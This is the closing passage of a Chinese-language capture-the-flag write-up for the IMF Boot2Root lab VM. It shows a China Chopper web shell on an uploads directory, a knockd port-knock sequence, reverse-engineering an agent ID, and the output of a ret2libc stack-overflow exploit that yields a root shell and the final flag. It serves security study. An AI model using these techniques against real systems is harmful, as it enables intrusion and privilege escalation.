unix  2      [ ]         DGRAM                    13296    
unix  3      [ ]         DGRAM                    10888    
unix  3      [ ]         STREAM     CONNECTED     14171    
unix  2      [ ]         DGRAM                    10531    
unix  3      [ ]         STREAM     CONNECTED     13722    /run/systemd/journal/stdout
unix  3      [ ]         STREAM     CONNECTED     10844    /run/systemd/journal/stdout
unix  3      [ ]         STREAM     CONNECTED     13188    
unix  3      [ ]         DGRAM                    12180    
unix  3      [ ]         STREAM     CONNECTED     15270    /var/run/dbus/system_bus_socket
unix  2      [ ]         DGRAM                    14882    
unix  3      [ ]         STREAM     CONNECTED     13445    
unix  3      [ ]         DGRAM                    12178    
unix  2      [ ]         DGRAM                    12810    
unix  3      [ ]         DGRAM                    10887    
unix  3      [ ]         STREAM     CONNECTED     10843    
unix  3      [ ]         STREAM     CONNECTED     10592    
unix  3      [ ]         STREAM     CONNECTED     13721    
unix  3      [ ]         STREAM     CONNECTED     13435    
unix  3      [ ]         DGRAM                    12179    
unix  3      [ ]         STREAM     CONNECTED     13503    /var/run/dbus/system_bus_socket
unix  3      [ ]         STREAM     CONNECTED     13189    /run/systemd/journal/stdout

[/var/www/html/imfadministrator/uploads/]$ ps -ef | grep knockd
root      1041     1  1 Mar27 ?        00:12:11 /usr/sbin/knockd -d
www-data  3495  2593  0 11:20 ?        00:00:00 sh -c /bin/sh -c "cd /var/www/html/imfadministrator/uploads/;ps -ef | grep knockd;echo [S];pwd;echo [E]" 2>&1
www-data  3496  3495  0 11:20 ?        00:00:00 /bin/sh -c cd /var/www/html/imfadministrator/uploads/;ps -ef | grep knockd;echo [S];pwd;echo [E]
www-data  3498  3496  0 11:20 ?        00:00:00 grep knockd
```

实证确实使用了knockd服务

```
root@kali:~/Desktop# knock 192.168.56.101 7482 8279 9467
root@kali:~/Desktop# nmap -p 7788,22 192.168.56.101

Starting Nmap 7.60 ( https://nmap.org ) at 2018-03-28 12:38 EDT
Nmap scan report for 192.168.56.101
Host is up (0.00033s latency).

PORT     STATE    SERVICE
22/tcp   filtered ssh
7788/tcp open     unknown
MAC Address: 08:00:27:A1:F5:E7 (Oracle VirtualBox virtual NIC)

Nmap done: 1 IP address (1 host up) scanned in 17.89 seconds
root@kali:~/Desktop# nc 192.168.56.101 7788
  ___ __  __ ___ 
 |_ _|  \/  | __|  Agent
  | || |\/| | _|   Reporting
 |___|_|  |_|_|    System


Agent ID : 
```

这时7788端口开启，可以访问到这个程序，但是不知道ID是多少

使用中国菜刀down下二进制程序，放入IDA中



可知ID是48093572

```
root@kali:~/Desktop# nc 192.168.56.101 7788
  ___ __  __ ___ 
 |_ _|  \/  | __|  Agent
  | || |\/| | _|   Reporting
 |___|_|  |_|_|    System


Agent ID : 48093572
Login Validated 
Main Menu:
1. Extraction Points
2. Request Extraction
3. Submit Report
0. Exit
Enter selection:
```

改程序有三个函数：

1. 输出一堆东西，没什么用



2. 输入一个55长度的字符串，并显示，无法利用



3. 输入任意长度字符串，存在栈溢出漏洞



```
root@kali:~/Desktop# pwn checksec agent
[*] '/root/Desktop/agent'
    Arch:     i386-32-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX disabled
    PIE:      No PIE (0x8048000)
    RWX:      Has RWX segments
```

没有开启任何保护，直接ret2libc走起，exp见文件

```
root@kali:~/Desktop# python exp
[+] Opening connection to 192.168.56.101 on port 7788: Done
[*] '/root/Desktop/agent'
    Arch:     i386-32-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX disabled
    PIE:      No PIE (0x8048000)
    RWX:      Has RWX segments
[+] puts_addr:f7608140
[+] system_addr:f75e3940
[+] str_bin_sh_addr:f770200b
[*] Switching to interactive mode
Report: BBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBp\x84\x05\x84\x0@\xb0\x0@9^�ﾭ�@\xb0\x0
Submitted for review.
$ whoami
root
$ cd /root
$ ls
Flag.txt
TheEnd.txt
$ cat Flag.txt
flag6{R2gwc3RQcm90MGMwbHM=}
$ cat TheEnd.txt
   ____                        _ __   __   
  /  _/_ _  ___  ___  ___ ___ (_) /  / /__ 
 _/ //  ' \/ _ \/ _ \(_-<(_-</ / _ \/ / -_)
/___/_/_/_/ .__/\___/___/___/_/_.__/_/\__/ 
   __  __/_/        _                      
  /  |/  (_)__ ___ (_)__  ___              
 / /|_/ / (_-<(_-</ / _ \/ _ \             
/_/__/_/_/___/___/_/\___/_//_/             
  / __/__  ___________                     
 / _// _ \/ __/ __/ -_)                    
/_/  \___/_/  \__/\__/                     
                                           
Congratulations on finishing the IMF Boot2Root CTF. I hope you enjoyed it.
Thank you for trying this challenge and please send any feedback.

Geckom
Twitter: @g3ck0ma
Email: geckom@redteamr.com
Web: http://redteamr.com

Special Thanks
Binary Advice: OJ (@TheColonial) and Justin Stevens (@justinsteven)
Web Advice: Menztrual (@menztrual)
Testers: dook (@dooktwit), Menztrual (@menztrual), llid3nlq and OJ(@TheColonial)
```

得到最后一个flag6{R2gwc3RQcm90MGMwbHM=}

```
root@kali:~/Desktop# echo 'R2gwc3RQcm90MGMwbHM='|base64 -d
Gh0stProt0c0ls
```

## 收获

1. 更加熟悉了nmap扫描寻找主机
2. 复习了sqlmap
3. 学习了xxd
4. 了解了knockd这个东东，才知道原来还能这样隐藏端口
5. 熟悉了中国菜刀的使用方法，更加感到其强大

